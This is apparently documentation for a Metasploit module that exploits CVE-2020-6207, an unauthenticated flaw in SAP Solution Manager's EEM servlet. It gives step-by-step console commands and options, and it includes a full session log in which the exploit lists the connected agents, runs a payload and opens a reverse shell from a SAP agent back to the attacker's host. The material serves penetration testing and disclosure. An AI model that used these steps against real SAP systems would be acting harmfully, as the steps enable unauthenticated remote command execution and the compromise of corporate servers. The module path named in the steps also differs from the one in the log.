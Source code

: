 ## Vulnerable Application
This module exploits the CVE-2020-6207 vulnerability within the SAP EEM servlet (tc~smd~agent~application~eem) of
SAP Solution Manager (SolMan) running version 7.2. The vulnerability occurs due to missing authentication
checks when submitting a SOAP request to the /EemAdminService/EemAdmin page to get information about connected SMDAgents,
send HTTP request (SSRF) and execute OS command on connected SMDAgent. Works stable in connected SMDAgent with Java version 1.8.

Successful exploitation will allow unauthenticated remote attackers to get reverse shell from connected to the SolMan
agent as the user under which it runs SMDAgent service, usually daaadm.

Paper: [An Unauthenticated Journey to Root][1]

### Application Background
In SAP landscapes, SolMan could be compared to a domain controller system in the Microsoft world.
It is a technical system that is highly connected with powerful privileges to all other SAP systems.
Once an SAP system is connected to the solution manager, it receives the name of a "managed" or "satellite" system.
As an administration solution, SolMan is intended to centralize the management of all the systems within the landscape by
performing actions such as implementing, supporting, monitoring and maintaining enterprise solutions.

### Installation Steps
Steps to install, configure and manage SolMan can be found online at [this page][2].

Once set up and configured, the instances will be vulnerable at the default HTTP port 50000.

## Verification Steps

1. Start msfconsole
1. Do: `workspace [WORKSPACE]`
1. Do: `use auxiliary/admin/sap/sap_2020_6207_solman_rs`
1. Do: `set RHOSTS [SolMan IP]`
1. Do: `set LHOST [Your IP]`
1. Do: `check`
1. Verify that the target is vulnerable and the list of connected agents was returned.
1. Do: `set AGENT [Connected agent server name]`
1. Do: `exploit`
1. Verify that the session from the connected agent was created.

## Options

### TARGETURI

This is the path to the EEM admin page of the SolMan that is vulnerable to CVE-2020-6207.
By default, it is set to `/EemAdminService/EemAdmin`. However, it can be changed if SolMan
was installed by a path different from that of the web root. For example, if the SolMan
server was proxied to the `/solman/` path under the web root, then this value would be
set to `/solman/EemAdminService/EemAdmin`.

### AGENT

Connected agent server name.
Example: `linux_agent`

## Scenarios

### Vulnerable SolMan 7.2 running on agent: test_linux with OS: Linux and java version: 1.8

```
msf6 > workspace -a SAP_TEST
[*] Added workspace: SAP_TEST
[*] Workspace: SAP_TEST
msf6 > use exploit/multi/sap/cve_2020_6207_solman_rs
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/sap/cve_2020_6207_solman_rs) > set RHOST 172.16.30.46
RHOST => 172.16.30.46
msf6 exploit(multi/sap/cve_2020_6207_solman_rs) > set LHOST 192.168.50.2
LHOST => 192.168.50.2
msf6 exploit(multi/sap/cve_2020_6207_solman_rs) > check

[+] Connected agents list:
+--------------+------------------------+---------------+------------------------+--------------+
| Server Name  | Host Name              | Instance Name | OS Name                | Java Version |
+--------------+------------------------+---------------+------------------------+--------------+
| test_linux   | SAPERP.corp.test.com   | SMDA98        | Linux                  | 1.8.0_25     |
| test_windows | SAP731.corp.test.com   | SMDA97        | Windows Server 2008 R2 | 1.6.0_29     |
+--------------+------------------------+---------------+------------------------+--------------+
[+] 172.16.30.46:50000 - The target is vulnerable.
msf6 exploit(multi/sap/cve_2020_6207_solman_rs) > services
Services
========

host          port   proto  name  state  info
----          ----   -----  ----  -----  ----
172.16.30.46  50000  tcp    soap  open   SAP Solution Manager

msf6 exploit(multi/sap/cve_2020_6207_solman_rs) > vulns

Vulnerabilities
===============

Timestamp                Host          Name                                                            References
---------                ----          ----                                                            ----------
2021-03-21 10:17:11 UTC  172.16.30.46  SAP Solution Manager remote unauthorized OS commands execution  CVE-2020-6207,URL-https://i.blackhat.com/USA-20/Wednesday/us-20-Artuso-An-Unauthenticated-Journey-To-Root-Pwning-Your-Companys-Enterprise-Software-Servers-wp.pdf,URL-https://github.com/chipik/SAP_EEM_CVE-2020-6207,URL-https://launchpad.support.sap.com/#/notes/2890213

msf6 exploit(multi/sap/cve_2020_6207_solman_rs) > set AGENT test_linux
AGENT => test_linux
msf6 exploit(multi/sap/cve_2020_6207_solman_rs) > exploit

[*] Started reverse TCP handler on 192.168.50.2:4444
[*] Agent: test_linux
[*] OS: Linux
[*] Interpreter: /bin/sh
[*] Enable EEM on agent: test_linux
[*] Start script: b4CyuGQxGdfk with RCE payload on agent: test_linux
[*] Command shell session 1 opened (192.168.50.2:4444 -> 172.16.30.14:24141) at 2021-03-21 13:24:21 +0300

pwd
/usr/sap/DAA/SMDA98/SMDAgent
id
uid=1004(daaadm) gid=1001(sapsys) groups=1001(sapsys),1000(sapinst)
background

Background session 1? [y/N]  y
msf6 exploit(multi/sap/cve_2020_6207_solman_rs) > sessions

Active sessions
===============

  Id  Name  Type              Information  Connection
  --  ----  ----              -----------  ----------
  1         shell java/linux               192.168.50.2:4444 -> 172.16.30.14:24141 (172.16.30.46)

```

[1]: https://i.blackhat.com/USA-20/Wednesday/us-20-Artuso-An-Unauthenticated-Journey-To-Root-Pwning-Your-Companys-Enterprise-Software-Servers-wp.pdf
[2]: https://blogs.sap.com/2016/02/16/solution-manager-72-installation-and-configuration-i-installations/
